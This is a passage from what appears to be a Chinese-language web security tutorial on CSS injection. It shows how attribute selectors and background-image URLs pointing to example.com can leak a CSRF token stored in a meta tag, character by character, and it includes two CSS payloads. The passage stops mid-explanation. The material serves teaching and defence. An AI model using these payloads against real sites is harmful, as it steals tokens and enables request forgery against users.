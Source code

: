 ## 偷 meta

除了把資料放在 hidden input 以外，也有些網站會把資料放在 `<meta>` 裡面，例如說 `<meta name="csrf-token" content="abc123">`，meta 這個元素一樣是看不見的元素，要怎麼偷呢？

首先，如同上個段落的結尾講的一樣，`has` 是絕對偷得到的，可以這樣偷：

``` css
html:has(meta[name="csrf-token"][content^="a"]) {
  background: url(https://example.com?q=a);
}
```

但除此之外，還有其他方式也偷得到。

`<meta>` 雖然也看不到，但跟 hidden input 不同，我們可以自己用 CSS 讓這個元素變成可見：

``` css
meta {
  display: block;  
}

meta[name="csrf-token"][content^="a"] {
  background: url(https://example.com?q=a);
}
```

![style](pics/17-02.png)

可是這樣還不夠，你會發現 request 還是沒有送出，這是因為 `<meta>` 在 `<head>` 底下，而 `<head>` 也有預設的 `display:none` 屬性，因此也要幫 `<head>` 特別設置，才會讓 `<meta>`「能被看到」：
